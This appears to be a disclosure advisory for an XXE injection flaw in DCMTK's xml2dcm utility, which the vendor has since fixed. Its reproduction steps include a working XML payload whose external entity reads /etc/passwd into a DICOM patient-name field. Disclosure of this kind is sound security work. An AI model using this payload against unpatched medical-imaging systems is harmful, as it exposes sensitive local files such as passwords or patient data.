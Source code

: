 # XXE injection in xml2dcm utility

xml2dcm utility is vulnerable to XML External Entity (XXE) Injection. The utility doesn’t have any configuration parameters to disable DTDs (External Entities) completely. This parser allows processing and converting XML with external entities. It can be used for reading local files, which may contain sensitive data such as passwords or private user data.

## Steps to reproduce:
1) Create xml with external entity:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [ 
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
…
<element tag="0010,0010" vr="PN" vm="1" len="32" name="PatientName">&xxe;</element>
…
```
2) Convert xml to dcm using the xml2dcm:
$ xml2dcm xxe.xml xxe.dcm
3) The result DICOM-file will include the content of `/etc/passwd` file.

## Information
The vendor was [informed](./data/Advisory_DCMTK_xml2dcm_xxe.pdf) and vulnerability has  been [fixed](http://git.dcmtk.org/?p=dcmtk.git;a=commit;h=dbe6898efea3ba1dd5c50e34d2d5ccd741ef7a18).
